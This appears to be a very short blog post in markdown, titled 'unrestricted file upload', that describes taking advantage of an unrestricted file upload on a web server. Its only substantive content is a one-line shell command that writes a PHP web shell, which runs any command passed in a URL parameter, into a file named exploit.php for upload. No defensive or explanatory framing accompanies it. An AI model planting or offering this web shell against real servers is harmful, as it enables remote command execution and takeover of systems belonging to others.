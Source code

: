 ```yaml
---
layout: post
title: unrestricted file upload
---
```

possible way to take advantage of an unrestricted file upload section in a web server

```
echo "<?php system(\$_GET['cmd']); ?>" > exploit.php
```
